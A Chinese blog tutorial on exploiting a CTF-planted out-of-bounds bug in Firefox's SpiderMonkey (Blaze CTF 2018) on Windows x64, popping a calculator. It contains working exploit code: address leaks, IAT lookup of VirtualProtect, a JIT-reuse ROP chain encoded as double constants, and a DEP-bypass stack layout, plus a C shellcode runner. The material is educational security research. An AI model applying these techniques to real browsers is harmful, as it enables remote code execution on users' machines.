

## 第2篇博客.

## 前言

`Hello`, 欢迎来到`Just pwn it for fun`系列, 这是系列的第`1`篇. 有关这个系列的更多细节你可以在我的[第0篇](blog_00.md)看到. 这篇文章主要会通过对一个`poc`代码改进, 让他弹出一个令人兴奋的计算器. 在阅读完这篇文章之后, 应该或许可能能够获取以下的知识:

>   [+] 了解如何调试一个浏览器.  
>   [+] 了解`shellcode`的编写.  
>   [+] 半了解如何开发一个`exp`.  
>   [+] 了解在`SpiderMonkey`当中如何去绕过`NX`这一缓解措施(`ROP`版本)  
>   [+] 了解`JIT REUSE`的技巧.

各个小节的传送门如下:

-   [正文](##正文)
-   [总结](##总结)
-   [后记](##后记)
-   [相关链接](##相关链接)
-   [copyright](##copyright)
-   [wjllz's life](##wjllzs-life)

需要注意的是, 这一部分并不会对理论部分进行任何的深入, 阅读的时候只要保持基本的理解,对文章接下来的部分的理解应该是足够的.

本文相关的代码在[这里](). 如何使用可以在[readme.md]()里面查看. 实验环境下载可以在这里[下载]().

That's all. 让我们开始我们痛苦的浏览器之旅.


## 正文

总所周知, 我们要开始学浏览器了. 那么我们自然是需要一个浏览器漏洞的. 这篇文章牵扯的漏洞是[blaze ctf -2018](https://ctftime.org/event/591)的一个关于[firefox](https://www.mozilla.org/zh-CN/firefox/new/)有关的[漏洞](https://ctftime.org/task/6000). 

>   No one gave us a firefox 0day last year, so we'll make it a little easier for you this time.

作者人为的修改了`firefox`的源码, 能够触发一个[OOB](https://en.wikipedia.org/wiki/Out-of-band)类型的漏洞. 我们的任务就是对这个`OOB`漏洞进行利用. 

让我们来猜想一下我们接下来要干些啥:

>   [+] 0. 触发漏洞.  
>   [+] 1. 一堆骚操作.  
>   [+] 2. 控制`rip`寄存器, 使其指向`shellcode`.  
>   [+] 3. 执行`shellcode`, 弹出计算器.  

那么, 让我们来仔细分析这个漏洞吧, 从而触发漏洞(误).


漏洞的分析很痛苦, 男人何必为苦男人, 所以我们挑一点简单的事情来做. 直接执行`shellcode`, 弹出计算器看看.

### 执行`shellcode`之旅.

首先, 我们的环境是在`windows x64(1709)`环境下, 所以我们需要在`windows x64(1709)`下弹出计算器的`shellcode`.

关于`shellcode`的编写, 我依然习惯于把`shellcode`当作库函数直接来调用. 不会每次都去重新写一次. 在这里, 我利用的是原作者提供的[shellcode](https://github.com/0vercl0k/blazefox/blob/e4f94b6544d0538285968cba8549e697425c64d9/exploits/moarutils.js#L210). 如果您对`shellcode`的原理感兴趣的话. 下面的三篇应该会有帮助:

>   [+] [writting windows shellcode](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html)
>>  [+]  一篇手把手教导写shellcode的文章, 作者采用了大量的动态图. 博客做的相当用心.

>   [+] [windows shellcode[from github]](https://github.com/peterferrie/win-exec-calc-shellcode)
>>   [+] `github`上的一个关于`shellcode`的项目. 里面有针对`x64`和`x86`的`shellcode`现成的版本. 可以通过代码阅读学习(我以前做`adobe`利用的时候使用过, 效果拔群, 但是针对于`firefox`并没有进行任何尝试, 所以具体能不能行我不是很清楚(但我觉得大概率应该ok, 毕竟都是针对`windows`平台的.)).

>   [+] [打造自己的PE解释器](https://bbs.pediy.com/thread-252795.htm)
>>  [+] 作者写的一个有关于`PE结构体`的文章, 图文并茂, 从调试和编写代码入手. 这篇文章对理解如何动态的获取函数地址应该会有很大的帮助.

`shellcode`的学习不是必须的(就算不用了解也可以成功的搞定一个利用). 但是可能学安全的人喜欢折腾自己, 如果想学习`shellcode`的话, 我自己的方法是依赖于`PeView`, `windbg`等工具, 再顺着[第一篇博客](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html)的良心动态图, 一步一步的理解. 应该问题不会太大.

闲话少说, 让我们把`js`代码转化为`c代码`([shellcode.c]()), 看一下`shellcode`是否可以正常运行:

``` c
    BYTE shellcode[0x300] = {0x90, ........};   

    int main()
    {
        // 使用VirtualProtect是shellcode可执行
        DWORD oldProtect = 0;
    	VirtualProtect(shellcode, 0x1000, 0x40, &oldProtect);   // [+] 注意这里

        // 执行shllcode.
        ((void(*)())shellcode)();
    }
```
接着, 让我们用一个动态图来进行验证.


Bingo, 我们正确的执行了一个`shellcode`. 但是问题的关键来了. 人生双问:

>   [+] `VirtualProtect`是啥勒.  
>   [+] `VirtualProtect`有啥用勒.

关于[ViewtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)官方的定义如下:

>   [+]  Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process. Memory allocated by this function is automatically initialized to zero.
 
简单的来说, `VirtualProtect`可以改变页面的属性. 我们先前的`shellcode`放在一个可读可写, 但不可执行的区域. 执行了`VirtualProtect`之后, 该数据段变为可执行(注意看参数`0x40`是怎么来的). 所以我们的`VirtualProtect`可以用于绕过`DEP`. 具体怎么绕过, 你可以在接下来的其他部分了解到.

接下来, 让我们通过一个小实验来进入浏览器的学习.

### 实验00 -- 控制`RIP`.

在附件里面你可以看到一个叫做[js.exe]()和一个叫做`control-rip.js`的东西, 简而言之的话:

>   [+] `control-rip.js`的代码是可以运行在`js.exe`当中的, 为了解释`js`到底需要做些啥. 我们需要一个解释器. 这个解释器就会解释这些`js`代码(这一部分可能有重大的阐述错误).

关于浏览器的理论部分的东西我觉得还是后面接触为好, 如果你实在过于好奇, 可以在我的[第08篇](blog_08.md)博客里面得到一个粗糙的答案.

我们可以换个说法, 用我们已经知道的东西来代替上面的理论:

>   [+] 如果你知道栈溢出的话. `js.exe`就是我们要攻击的程序, 而`control-rip.js`里面的代码就是我们喂给他的数据.

首先, 我们需要知道如何调试`js.exe`. 我最喜欢用的是`attach`方法. 我们先来看这个方法:

步骤如下:

> [+] 1: 运行`js-asserts`目录下的`js.exe`.  
> [+] 2. 使用`windbg`附加我们的`js.exe`.  
> [+] 3. 在`js.exe`下输入`load("(control-rip.js的路径)\control-rip.js")`. [control-rip.js此处可下载.]()  
> [+] 4. 调试器崩溃, 观察相关的信息.  

是不是觉得很烦... 我也觉得, 没关系, 一图胜千言:


之后让我们执行一下第四步, `dump`一下相关的信息:

``` c
    0:000> r
    rax=4141414141414141 rbx=00000066a01fc0b0 rcx=0000017af4426000
    rdx=00000066a01fc0b0 rsi=0000017af4adb238 rdi=00000066a01fc240
    rip=00007ff650b600cc rsp=00000066a01fbcc8 rbp=0000017af4426000
     r8=00000066a01fc240  r9=0000017af4adb238 r10=0000017af4b4c948
    r11=0000000000000013 r12=0000017af4426068 r13=00007ff6517424d8
    r14=4141414141414141 r15=0000017af4426000
    iopl=0         nv up ei pl nz na pe nc
    cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
    js!js::CallJSAddPropertyOp+0x6c:
    00007ff6`50b600cc 48ffe0          jmp     rax {41414141`41414141}
```

`jmp rax`, rax的值为`4141414141414141`. 你可以篡改代码的n行, 改为`0x424244242`或者其他之类的. 来验证我们是否真的成功的控制了`rip`.

接着, 我们需要修改我们的`rip`为`shellcode`的地址. 另外一个麻烦的问题来了. 如何泄露我们的`shellcode`的地址呢?

让我们先看一下我们的`control-rip.js`里面的`__Pwn`这个类. 里面包含着以下的几种方法. 他们的功能定义如下:

> `__Pwn.AddrOf(Obj)`:
>> 返回一个对象的地址.

> `__Pwn.ReadPtr(Addr)`: 
>> 返回指定地址存储的内容(返回内容的长度为`8 bytes`大小)

> `__Pwn.WritePtr(Addr, value)`:
>> 向制定地址写入`8byte`的值.

> `__Pwn.Read(Addr, Length`):
>> 返回指定地址存储的内容(返回内容的大小为 `length`大小. )

我们把这些东西当作一个库, 不用知道为什么, 先拿起就用就好了(类似c语言的`printf`函数). 于是乎. 我们可以一步一步的该找我们的`shellcode`存储的位置. 

首先我们可以打印出我们的`shellcode`对象的地址(接下来这些修改的代码你可以在我的完成品([wjllz_00.js]()当中找到.)):

> [leak shellcode的代码]():
> ``` js
>    let shellcodeObjAddr = pwn.AddrOf(shellcode);
>    let shellcodeSavedAddr = pwn.ReadPtr(shellcodeObjAddr);
>
>    console.log("[+] shellcode Object Addr: " + shellcodeObjAddr);
>    console.log("[+] shellcode Save at: " + shellcodeSavedAddr);
> ```

运行结果如下:


可以看到我们找到了我们的`shellcode`地址(可以看到`nop`指令). 下面, 让小弟对以上的代码做一些解释.

> `Ptr(A 高亮蓝色): 0x0000017724201500`为管理`shellcode`对象的地址.  
> `Ptr(B 高亮黄色): 0x0000017724d23800`为`shellcode`的地址.  
> `A`的偏移`0x38处`存放`B`.

好了, 下一个问题是, 为什么偏移为0x38的处存放的是`shellcode`的地址呢. 您可以在我的[第二篇](blog_02.md)博客当中找到答案, 但是我个人的建议是先不管这个, 先强行记住一个生硬的定义:

> [+] `Uint8Array`对象, 在他偏移为`0x38`处为存放数据的地址.

某些东西我们现在可能知之甚少, 但是却不影响大局, 至少在这里, 我们成功的泄露出了我们的`shllcode`地址. 

接着让我们利用代码把rip改为`shellcode`.

``` js
    // rip --> shellcode
    MemoryBackingObject.set(shellcodeSavedAddr.bytes(), 0x30);
```

之后在`jmp rax`处下断点. 查看发生了啥.


我们可以看到我们已经跳到`shellcode`去了, 但是并没有执行我们的`shellcode`, 程序就异常了. 所以, `tell me why? `.

如果您还记得我前面说的`DEP`的话, 应该就能明白我们的`shellcode`为啥不能执行:
> `shellcode`存放于数据区. 为不可执行堆.  
>>    

然而机智如我们在前面就已经找到了我们的解决方法, 有请我们的`VirtualProtect`闪亮登场. 接下来我又会放一张`gif`图, 在那之前让我们用文字先描述一下我们想干啥:

> [+] 1. 我们先想个办法找到`VirtualProtect`的地址.  

> [+] 2. 在`jmp rax`处, 使我们的`rax`指向我们的`VirtualProtect`地址.  

> [+] 3. 构建合适的参数, 使我们的函数调用满足`VirtualProtect(shellcodeAddress, 0x1000, 0x40, oldProtect)`; 参数构造如下:
>> [+] `rcx` = shellcodeAddr.  
>> [+] `rdx` = 0x1000;  
>> [+] `r8` = 0x40.  
>> [+] `r9` = oldProtect;  

> [+] 在执行完`VirtualProtect`函数之后可以使用`r rip = shellcode`命令直接让我们的`rip`指向`shellcode`.

这一部分如果对参数的构造为什么选择那些寄存器不是很清楚的话, 可以查看下面的这篇文章.

> [+] [x64 calling convention](https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=vs-2019)
>> 微软的`x64`的官方文档, 详细的解释了`window`环境中`x64`下如何传入参数.

一早说好的`gif`图如下:

  

机智如我们早早的就弹出了计算器. 但是上面有些问题. 很多东西我们都是使用调试器手工做的, 显然我们需要将它转化为代码. 我们先来计算下我们手工做的事有哪些:

> [+] 1. 手工找到了`VirtualProtect`函数的地址.  
> [+] 2. 手工构建了`VirtualProtect`函数的参数(即修改四个寄存器.)  
> [+] 3. 手工修改了返回地址为`shellcode`的地址.  

所以我们只要能把我们手工做的事变为代码, 显然我们今天的任务就算是完成了 :).

##### 泄露`VirtualProtect`的地址.

依然按照我们一开始的约定, 在这一章当中. 我们少扯一点理论的事. 我们先愚蠢的一步一步来. 在第二章当中我们再去补充一些理论的知识.

首先, 前面我们有提到, 我们的`shelcode`存放于一个`Uint8Array`当中. 而这个对象的地址我们是可以泄露的. 让我们`dump`一下:


很舒服的, 我们在这当中看到了一个`js.exe`的一个指针. 至于这个指针是干啥的, 此时此刻完全不重要, 让我们利用当前我们的所得, 推断一下我们要做的事:

> [+] 如果我们能够泄露一个`Uint8Array`对象的地址, 我们就能获取一个关于`js.exe`的指针.  
> [+] 如果我们可以泄露一个`js.exe`的指针. 那么我们就能够泄露`js.exe`的基地址. 偏移(`0x14fde8`)如下:
>>     

于是乎, 让我们开开心心的写出如下代码:

``` js
    // leak js.exe的基地址
    let js_function_pointer = pwn.ReadPtr(Add(shellCodeObjAddr, 0x18));
    let js_base = js_function_pointer - 0x14fde8;
    console.log("js base: " + js_base);
```
验证如下:


关键是, 泄露出我们的`js.exe`有什么用呢. 让我们执行如下的命令:

> [+] `!dh -a js`, 运行的结果片段如下:
>>   
>> 
>> 

你可以在[这里](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-dh)查找到关于该命令的官方解释. 总之, 在高亮的部分你看到我们的`VirtualProtect`函数. 

接下来我们继续思考:

> [+] 1. `VirtualProtect`存在于js.exe的`IAT`表当中.   
> [+] 2. 如果我们可以泄露`js.exe`基地址. 那么我们显然就知道`IAT`表的地址(偏移值是固定的, 用加法可以算出来).  
> [+] 3. 如果我们知道`IAT`表的地址, 那么我们就可以读出我们的`VirtualProtect`函数的地址.

问题是, `js.exe`的地址我们已经知道了, 所以一切问题迎刃而解. 下面的代码可以帮助我们泄露`VirtualProtect`的地址.

``` js
	// leak virtualProtect function addr
	let virtualProtect_func_Addr = Pwn.ReadPtr(Add(js_base_addr, 0x190d270));
	
	console.log("[+] VirtualProtect function at: " + virtualProtect_func_Addr);
```

于是乎. 接下来的问题只剩下了我们如何去用代码完成我们的`2, 3`两步.

> [+] 2. 手工构建了`VirtualProtect`函数的参数(即修改四个寄存器.)  
> [+] 3. 手工修改了返回地址为`shellcode`的地址. 

##### 控制参数, 控制返回地址为`shllcode`.

要控制这么多东西, 显然我们需要一个比较流弊的`ROP`. 这个`ROP`链如下(在这里先不用管这个`ROP`是怎么奏效的, 对`ROP`更好的理解其实是同过调试, 所以我们可以之后再看.)

``` nasm
    xchg    rsp, rdx   
    mov     rsp, [rsp] 
    mov     rsp, [rsp+0x38]   ; here
    pop rcx
    pop rdx
    pop r8
    pop r9
    ret
```

在代码注释为here的地方. `rsp`已经构造完毕. 而我们期待的布局如下:

> `shellcodeAddr, 0x1000, 0x40, 0xshellcodeObjAddr `  
>> [+] 这四个值会由`POP`指令一次放入到`rcx, rdx, r8, r9`当中去.

> `virtualProtectAddr, shellcodeAddr`  
>> [+] ret第一次会执行`virtualProtectAddr`.    
>> [+] 第二次在`virtualProtectAddr`的`ret`指令会去执行我们的`shellcode`.

原作者找这条`ROP`链, 第一次的时候使用的是`ntdll`来做的. 我使用了[ROPGadget](https://github.com/JonathanSalwan/ROPgadget)找了五个小时都没有找到(中间不断的尝试用其他指令代替)... 所以最后只好选择放弃. 直接采用第二种方法. 放弃的理由主要是两个:
> [+] 我需要去在`ntdll.dll`找到如上的代码, 但是找不到(替代的代码也没有...).  
> [+] 就算成功了, `ROP`链太依赖于`ntdll.dll`的版本. 很容易失败(`exp`的兼容性太差了).  

所以我们需要另外寻找出路. 这个时候, 我们就需要我们的新伙伴. `JIT reuse`.

###### `JIT REUSE`.

`JIT reuse`是啥玩意呢. 毕竟是写了论文的东西, 所以我不可能在短时间之内讲的清清楚楚. 所以有如下的文章可以参考.
> [+] [JIT reuse](https://media.blackhat.com/us-13/US-13-Snow-Just-In-Time-Code-Reuse-Slides.pdf)
>> Blackhat 13年的论文. Youtube上面有相应的视频.  

但是呢. 我们可以先这样粗糙的理解:
> [+] 我们需要一段`ROP`链, 但是很可能在我们所处的环境当中没有.  
> [+] 我们可以自己来构造一些代码, 让他稳定生成`ROP`链.

话讲的太少, 总会说不清楚. 让我们来看看如下的代码:


我们得到我们的`0x9090909090909090`对应的double值为`-6.828527034422786e-229`, 所以我们构造如下代码:

``` js

    function construct_rop_chain(){
        const A = -6.828527034422786e-229;
        const B = -6.828527034422786e-229;
        const C = -6.828527034422786e-229;
        const D = -6.828527034422786e-229;
    }

    for(let i = 0; i < 12; i++){
        construct_rop_chain();
    }

```

//  [+] 当代码运行次数过多的时候, `JS.exe`会把`control_rop_chain`转换为汇编代码放在内存当中.
//  [+] 这里需要对Hot code做一个解释, To do list.

我们怎么去找到我们生成的代码呢?

首先, 我们找到我们函数对象的地址: 


接着, 由于函数对象由`JSFunction`管理, 所以我们可以打印出相应的信息.


在`JSFunction`偏移为`0x30`的地方, 存放一个指针(黄色高亮的部分), 指向了我们生成的代码.

对照着上面的结构, 我们可以很轻松的获取到存放函数的地址:

``` js
    // leak control_chain
    let construct_rop_chain_func_obj_addr = Pwn.AddrOf(construct_rop_chain);
    let construct_rop_chain_func_jit_info = Pwn.ReadPtr(Add(construct_rop_chain_func_obj_addr, 0x30));
    let construct_rop_chain_func_addr = Pwn.ReadPtr(construct_rop_chain_func_jit_info);

    console.log("[+] The function address is: " + construct_rop_chain_func_addr);
```

验证如下:


接着, 我们查看生成的代码:


emmm, 显然, 赋值操作在`jit`里面也是由我们的`mov`指令完成. 注意看操作数(就是doble对应的16进制值):

>  `6EB909090D48748h`.

这一部分的内容我们可控. 所以我们假设一下, 我们的设置`rip`地址为`0x00000018dabd6619+2`. 则我们就找到了我们要的命令.


总结一下就是, 我们可以通过操作数来冒充指令. 由于我们最大只能传送`8byte`的数据, 所以我们的程序指令一次不能超过`8byte`. 

我们有哪些命令呢, 我找了一个[在线网站](https://defuse.ca/online-x86-assembler.htm#disassembly)转换了一下:


从上面可以看到. 我们从`pop rcx`开始到`ret`指令, 总共只有`7 byte`, 所以是可以一次放完的.

第一条和第二条指令合起来只有`7byte`. 所以我们可以合起来, 但是如果我们想要执行第三条命令的话. 我们需要一个`jmp 6`指令, 一个`jmp 6`占两个`byte`, `7+2` > `8`. 所以我们头三条指令通通拆分开.

`jmp 后面为什么接的是6呢.`, 这个可以通过计算两个指令之间的偏移得到.(这里我说的有一点语焉不详... 主要是因为调试着看一看会好比语言会好很多...)

所以我们按照8byte进行详细的分组:

> [+] 第一次分组(填充数据):
>> 4887D4909090eb06 488B24249090eb06 488B64242690eb06 595A41584159C390

> [+] 第二次分组(配合小端序):
>> 06eb909090d48748 06eb909024248b48 06eb903824648b48 90c3594158415a59

> [+] 第三次分组(转化double):
>> 2.487982602987859e-275  2.487982018260472e-275 2.4878608212525747e-275 -6.380930795567661e-228

`js`代码如下:

``` js
    for(int)const construct_rop_chain = function(){
         const D = 2.487982602987859e-275;
         const A = 2.487982018260472e-275;
         const B = 2.4878608212525747e-275;
         const C = -6.380930795567661e-228;
    };
```

验证一下我们的`ROP`链:


然后我们再来看内存, 很舒服的我们就有了一个自己构建的`ROP`链. 接着我们想想怎么去用代码来找到`ROP`链. 我们可以看到:

``` js
    let rop = Add(construct_rop_chain_func_addr, 0x97b);    // 0x97b；来自于我们我们构造的rop链和函数的偏移.

    console.log("[+] We got our Rop chain at: " + rop);
```

将代码里面的`rip`控制到`rop`处, 运行一下:


很好, 万事`OK`, 我们成功的运行到了我们的`ROP`链, 现在程序崩溃的原因只是因为我们的`rsp`里面的内容不对而已, 接下来的事就是如何构造参数(也就是如何填充`rsp`).

###### 构造参数与返回地址.

构造参数的话, 你可以再看一下我们的`ROP`链代码(需要自己去调试). 会发现`rsp`来源于我们的`rdx`. 所以, `rdx`是啥.

源代码当中有一个`TargetAddress`. 可以添加如下的代码:

``` js
    // leak target address:
    console.log("Target Address at: " + TargetAddress);    
```

再dump一下, 我们发现rdx指向的刚好是`Target`对象的地址. 之后是`0x38`. Wait! 又是`0x38`, 我们之前说过`0x38`用于存储用户的数据, 所以如果我们可以控制`TargetAddress`的数据, 我们就能够控制`RSP`. 接下来就是我们的构造代码(可以看前面我们期待的布局, 此处是一一对应的):

``` js
    const r9_value = new Int64(shellcodeObjAddr);
	const r8_value = new Int64("40");
	const rdx_value = new Int64("1000");
	const rcx_value = shellcodeFuncAddr;
	const retValue_one = virtualProtect_func_Addr;
	const retValue_two = shellcodeFuncAddr;

	Target.set(rcx_value.bytes(), 8 * 0);
	Target.set(rdx_value.bytes(), 8 * 1);
	Target.set(r8_value.bytes(), 8 * 2);
	Target.set(r9_value.bytes(), 8 * 3);
	Target.set(retValue_one.bytes(), 8 * 4);
	Target.set(retValue_two.bytes(), 8 * 5);

```

老实说, 如果依赖于我接下来的讲解, `ROP`这种事, 自己动手调试一遍会有效的多, 从`jmp rax`处下断点, 然后单步调试, 不断的观察堆栈的变化.

## 验证

接下来进行我们的验证:


## 相关链接

- [Introduction to SpiderMonkey exploitation.]()
>   [+] 参考了该的利用思路. `poc 代码`

- []

## copyright

>   [+] 本文首发于先知社区

## wjllz's life

`最后, wjllz是人间大笨蛋.`